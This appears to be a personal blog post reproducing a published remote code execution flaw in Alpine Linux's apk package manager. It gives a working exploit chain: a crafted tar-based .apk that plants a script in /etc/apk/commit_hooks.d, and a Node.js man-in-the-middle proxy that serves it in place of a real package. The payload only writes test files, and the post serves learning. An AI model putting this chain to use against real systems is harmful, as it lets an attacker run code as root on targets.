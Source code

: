 ```yaml
---
layout: post
title: Testing RCE on Alpine Linux via APK
lang: en
description: Test a RCE vulnerability on APK + Alpine Linux
tags: docker alpine linux rce vulnerability apk
comments: true
--- 
```


I have been studying a little bit of security and one of the things I'm doing from time to time is reading CVE and trying to test and understand what is happening. Yesterday [Max Justicz](https://justi.cz/) published [Remote Code Execution in Alpine Linux](https://justi.cz/security/2018/09/13/alpine-apk-rce.html). He found an issues on `apk` which is the package manager for Alpine Linux which is super popular on docker images.

Max did a great job explaining the steps and the reasoning, but I wanted to try it myself. 


```
- Create a folder at /etc/apk/commit_hooks.d/, which doesn’t exist by default. Extracted folders are not suffixed with .apk-new.
- Create a symlink to /etc/apk/commit_hooks.d/x named anything – say, link. This gets expanded to be called link.apk-new but still points to /etc/apk/commit_hooks.d/x.
- Create a regular file named link (which will also be expanded to link.apk-new). This will write through the symlink and create a file at /etc/apk/commit_hooks.d/x.
- When apk realizes that the package’s hash doesn’t match the signed index, it will first unlink link.apk-new – but /etc/apk/commit_hooks.d/x will persist! It will then fail to unlink /etc/apk/commit_hooks.d/ with ENOTEMPTY because the directory now contains our payload.
```

The instructions seem simple but if you are not super familiar with how a tar file works, you may not understand it. On a tar file you can have multiple versions/files with the same name and you can extract one of them using `--occurrence` option. With this in mind, the instructions make a little bit more sense, so shall we try to create this file? 

First of all, let's create the directories:
```
sudo mkdir /etc/apk/commit_hooks.d/
mkdir folder_for_link
mkdir folder_for_real_file
```

Create the link:
```
/etc/apk/commit_hooks.d/x folder_for_link/magic
```

Create the real file on `folder_for_real_file/magic` with this content:
```
#!/bin/sh

echo "something" > /tmp/test-12346-YAY
echo "ha" > /testfileroot
```
(If it really works we should have a /tmp/test-123456-YAY file and one /testfileroot too)

Cool, now it seems we have almost everything we need! Let's create the apk with:
```
tar -zcvf bad-intention.apk /etc/apk/commit_hooks.d/ -C $PWD/folder_for_link/ magic -C $PWD/folder_for_real_file/ magic
```

Here we are adding all this 3 things in sequence to the tar file, you can check tar content with `t` option:
```
$ tar tvf bad-intention.apk
drwxr-xr-x root/root         0 2018-09-13 19:44 etc/apk/commit_hooks.d/
lrwxrwxrwx root/root         0 2018-09-13 19:37 magic -> /etc/apk/commit_hooks.d/x
-rwxrwxrwx root/root 954 2018-09-13 23:24 magic
```
(Pay attention on the order of this files: create directory commit_hooks.d, creation of link and creation of file)

What should be the behavior now? Since apk on alpine runs from `/` it will create the folder `/etc/apk/commit_hooks.k`, later it will extract the
link and to finish it will output the content of magic to the link which will be placed inside the `X` file. *Note*, I lost A LOT of time trying to see this behavior on `tar` it self, but it seems `tar` doesn't have this behavior and `apk` implements it's own extractor.

OK, now, we need to deliver this file when running the `apk add` inside docker. Here, I have updated /etc/hosts and pointed `dl-cdn.alpinelinux.org` to localhost. Using libraries `http-mitm-proxy http-proxy request` on node I have created a script to deliver the bad .apk when downloading something which has ltrace on url otherwise it will download the file and send to the docker.

```
var http = require('http'),
    httpProxy = require('http-proxy'),
    request = require('request'),
    fileSystem = require('fs'),
    path = require('path');

var proxy = httpProxy.createProxyServer({});

var server = http.createServer(function(req, res) {
  console.log('http://nl.alpinelinux.org' + req.url)
  if (req.url.indexOf('ltrace') > -1) {
    console.log("Trapped")
    var filePath = path.join(__dirname, 'bad-intention.apk');
    var stat = fileSystem.statSync(filePath);
    var readStream = fileSystem.createReadStream(filePath);
    readStream.pipe(res);
  } else {
      proxy = request('http://nl.alpinelinux.org' + req.url)
      proxy.on('response', function (a, b) {}).pipe(res);
  }
});

console.log("listening on port 80")
server.listen(80);
```

Building my docker with `docker build -t alpinetest --network=host --no-cache .`

```
FROM alpine:3.8

# RUN apk add python
RUN apk add ltrace

CMD "/bin/sh"
```
(If you are curious you can take a look on the test of the docker image even if it failed to build and see your files are really inside the correct places. Use `docker commit CONTAINER_ID` and `docker run -it SHA256_STRING sh`.)

This returned "The command '/bin/sh -c apk add ltrace' returned a non-zero code: 1". This happened because `apk` verifies the signature or the apk and try to clean up the files, but it is not able to since `/etc/apk/commit_hooks.k` contains a file. How to do some magic to make the apk return exit code 0? Max has found one (or two) ways of doing this. 

I still need to study what exactly the python script does to update the exit code but I have tested and it really works, as a quick test you can add `RUN apk add python` and update `folder_for_real_file/magic` to call his python code.

I know this may sound simple, but it took me a while to figure out all the tiny details. If you find any mistake I made, or want to say something, drop me a line! 

Matheus